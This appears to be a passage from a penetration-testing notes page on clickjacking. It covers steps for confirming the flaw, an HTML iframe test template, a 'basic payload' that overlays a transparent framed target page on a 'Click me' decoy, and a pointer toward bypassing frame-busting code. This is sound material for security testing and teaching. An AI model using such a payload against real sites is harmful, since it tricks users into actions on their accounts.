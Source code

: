 - And if the state-changing action requires users to be logged in when it is executed, you should also check if the site uses `SameSite` cookies. If it does, you won’t be able to exploit a clickjacking attack on the site’s features that require authentication
## Step 3: Confirm the Vulnerability
You should try to execute the state-changing action through the framed page you just constructed and see if the action succeeds. If you can trigger the action via clicks alone through the `iframe`, the action is vulnerable to clickjacking.

# Code Templates and Payloads
### HTML code template
```html
<html>
 <head>
 <title>Clickjack test page</title>
 </head>
 <body>
 <p>Web page is vulnerable to clickjacking if the iframe is populated with the target page!</p>
 <iframe src="URL_OF_TARGET_PAGE" width="500" height="500"></iframe>
 </body>
</html>
```
### Basic payload
```html
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

# Bypassing Protections
if the website uses frame-busting techniques instead of HTTP response headers and `SameSite` cookies: find a loophole in the `frame-busting code` so you might be able to bypass the mitigations

> [!frame-busting code]
> is a technique that use JavaScript code to check if the page is in an iframe, and if it’s framed by a trusted site. Frame-busting is an unreliable way to protect against clickjacking and can be bypassed
